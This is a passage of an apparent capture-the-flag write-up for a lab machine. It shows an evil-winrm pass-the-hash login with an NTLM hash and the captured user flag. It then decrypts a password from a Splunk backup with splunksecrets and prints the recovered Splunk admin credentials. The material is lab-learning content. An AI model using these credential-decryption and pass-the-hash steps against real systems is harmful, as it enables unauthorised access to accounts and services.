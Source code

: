 edward has the user flag.
```bash
evil-winrm -i $(cat ip.txt) -u 'edward.martin' -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
*Evil-WinRM* PS C:\Users\edward.martin\Documents> type ..\Desktop\user.txt
c8301ce7f72c82a9390e136d58bee3fd
```

there is a Backups folder on C:\ that has the Splunk backup. So we just repeat the step from the beginning looking for credentials. The one for `alexander.green` works.
```bash
splunksecrets splunk-decrypt --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI=' -S ./etc/auth/splunk.secret
# Sp1unkadmin@2k24
```

The creds don't work on ldap but they do on splunk web.
- admin:Sp1unkadmin@2k24

![haze6](/assets/img/haze6.png)

Splunk version:

![haze9](/assets/img/haze9.png)
